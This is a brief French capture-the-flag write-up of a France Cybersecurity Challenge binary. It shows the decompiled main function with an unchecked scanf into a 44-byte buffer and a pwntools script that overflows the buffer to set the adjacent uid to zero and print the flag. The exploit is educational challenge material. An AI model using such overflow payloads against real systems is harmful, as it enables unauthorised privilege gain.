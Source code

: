 # Ret2win

Avec Ghidra, on tombe rapidement sur main:

```c
undefined8 main(void)

{
  undefined local_38 [44];
  __uid_t local_c;

  local_c = geteuid();
  printf("username: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_0010200f,local_38);
  if (local_c == 0) {
    system("cat flag.txt");
  }
  else {
    system("cat flop.txt");
  }
  return 0;
}
```

## Padding

![](./stack.png)

Le segfault plus loin que prévu dans `ret` à 0x38 = 56:

![](./padding.png)

On cherche à mettre `uid = 0`. Or la taille du `uid_t` stockant l'uid est de 4 octets ainsi on peut tester:

![](./padding2.png)

## Win

Méthode 1:

```python
#! /usr/bin/env python3
from pwn import *

s = remote('challenges.france-cybersecurity-challenge.fr',port=2100)

#recupere l'adresse leak du buffer
s.recvuntil('username: ', drop=True)

payload = 'A'*44 + '\x00'
s.sendline(payload)
s.interactive()
s.close()
```

Méthode2:

![](./solve.png)
